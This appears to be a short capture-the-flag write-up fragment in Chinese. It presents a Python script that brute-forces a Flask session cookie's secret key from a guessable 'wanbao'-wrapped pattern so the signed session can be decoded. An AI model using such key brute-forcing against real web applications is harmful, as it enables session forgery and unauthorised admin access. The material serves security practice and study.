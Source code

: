 只需要写个脚本爆破一下就行了

```
#!/usr/bin/env python3
""" Flask Session Cookie Decoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

import zlib
from itsdangerous import base64_decode
import ast
import os
from flask.sessions import SecureCookieSessionInterface
import hashlib
import base64
import random

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

class FSCM:
    @staticmethod
    def decode(session_cookie_value, secret_key=None):
        try:
            if secret_key is None:
                compressed = False
                payload = session_cookie_value
                if payload.startswith('.'):
                    compressed = True
                    payload = payload[1:]
                data = payload.split(".")[0]
                data = base64_decode(data)
                if compressed:
                    data = zlib.decompress(data)
                return data
            else:
                app = MockApp(secret_key)
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)
                return s.loads(session_cookie_value)
        except Exception as e:
            return "[Decoding error] {}".format(e)

if __name__ == "__main__":
    cnt = 1
    while True:
        cookie_value = 'eyJpc19hZG1pbiI6ZmFsc2UsIm5hbWUiOiIxMjMiLCJ1c2VyX2lkIjoyfQ.ZUO2Eg.dxE1Jqo7vrBWygtgbQ8RndUZHJQ'
        secret_key = 'wanbao'+base64.b64encode(str(random.randint(1, 100)).encode('utf-8')).decode('utf-8')+'wanbao'
        if secret_key:
            result = FSCM.decode(cookie_value, secret_key)
        else:
            result = FSCM.decode(cookie_value)
        cnt += 1
        print(result, cnt)
        if '[Decoding error]' not in result:
            print(result, secret_key, 'YES')
            break
```
